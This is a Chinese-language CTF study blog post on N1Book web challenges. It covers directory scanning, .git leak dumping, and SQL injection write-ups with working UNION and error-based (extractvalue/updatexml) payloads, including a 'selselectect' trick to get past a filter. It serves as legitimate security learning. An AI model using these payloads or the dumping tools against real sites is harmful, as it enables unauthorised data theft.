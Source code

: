 ---
title: "N1Book Web 学习"
date: 2021-12-28T00:17:37+08:00
draft: false
tags: ['ctf', 'web']
categories: ['learning']
---

[[https://buuoj.cn/challenges][buuctf]] n1book web刷题
* 信息收集
** 常见的收集
网站上可能会有敏感目录/文件导致信息泄漏，如.git，vim的备份文件.swp等。可以用[[https://github.com/maurosoria/dirsearch][dirsearch]]扫描站点目录。

#+begin_src shell
cd dirsearch
python3 dirsearch.py -u 192.168.21.128 -e php
#+end_src

- -u 指定目标ip
- -e 指定网站语言
- -w 可以加上自己的字典（带上路径）
- –random-agents 使用代理（使用的代理目录在uesr-agents.txt中，可以自己添加）

脚本扫描的数据库在 =db= 文件夹，可以自己加。这题的目标文件有三个： =robots.txt= , =index.php~= , =.index.php.swp= 。我一开始扫了2次没扫出来，指定了php语言后扫出了robots.txt。

robots.txt是网站定的允许爬虫规则；后缀为~的是gedit的备份文件；.文件名.swp是vim的备份文件。

** 粗心的小李
git泄漏题可以用的工具有[[https://github.com/lijiejie/githack][GitHack]]，[[https://github.com/denny0223/scrabble][scrabble]]。只要目标网站上有.git，运行脚本就能把网站dump下来。

#+begin_src shell
GitHack.py http://www.openssl.org/.git/
#+end_src

#+begin_Src shell
scrabble http://example.com/
#+end_src
* SQL注入
- 数字型注入
  若输入参数为1，查询的语句为 =select * from table where id=1= 。若输入参数为1+1返回2的结果，基本能确定是数字型输入。
  参数前后没有过滤也没有引号，可以直接union。

- 字符型注入
  在输入参数前后加了引号。若输入参数为1，查询语句为 =select * from table where id = '1'= 。可以通过补全引号后在后面加union，在最后加上#或者--+注释掉之后的内容。

- 报错注入
  mysql中 =updatexml= 函数是用于更新xml文档的函数，语法是 =updatexml(目标xml文档, xml内路径, 更新的内容)= 第二个参数应该为合法的xpath路径，否则会报错同时输出传入的参数。可以用 =concat= 在语句前拼接一个 ='~'= 构造一个非法的xpath，系统会执行后面语句后返回结果，就变成了普通的字符型注入。


** SQL注入-1
先测试一下，发现只有id=1, 2, 3的时候有内容。id=3的时候提示有后门参数tips，tips=1会显示出执行的sql语句。

[[/img/2021-12-29_sql1-tips.png]]

可以看出是字符形式的注入。执行 =select * from notes where id ='-1' union select 1,2, group_concat(table_name) from information_schema.tables where table_schema=database()#'= 获取表名，查到有个表 =fl4g= 。要注意select出来的个数必须为3，直接 =select *= 查不到东西。应该是后台过滤了参数必须为3个，并且只有后面两个会显示，所以查出来的 =table_name= 也要用 =group_concat= 合并为一个字段。拿到表名后执行 =select * from notes where id ='4' union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'fl4g' #'= 获取到列名为fllllag。最后执行 =select * from notes where id = '4' union select 1,2,fllllag from fl4g= 就能获取flag。
** SQL注入-2
看源码发现提示，参数加入 =&tips=1= 的时候会返回报错信息，是报错注入，如果不加提示就是基于时间的盲注。先来看用提示的。

随便输入用户名会提示账号不存在，用户名输admin提示账号或密码错误。注入点在用户名。执行 =name=admin' and (select extractvalue(1,concat(0x7e,(database()))))--+&pass=123= 拿到库名 =note= ， =name=admin' and extractvalue(1,concat(0x7e,select group_concat(table_name) from information_schema.tables where table_schema = 'note'))--+&pass=123= 拿表名。看错误提示猜测 =select= 被过滤了，用双写 =selselectect= 替换 =select= 拿到表名 =fl4g= 。 =name=admin' and (selselectect extractvalue(1,concat(0x7e,(seleselectct group_concat(column_name) from information_schema.columns where table_name = 'fl4g'))))--+&pass=123= 拿到列名 =flag= ， =name=admin' and(select extractvalue(1,concat(0x7e,(selselectect group_concat(flag) from fl4g))))--+&pass=123= 拿到flag。
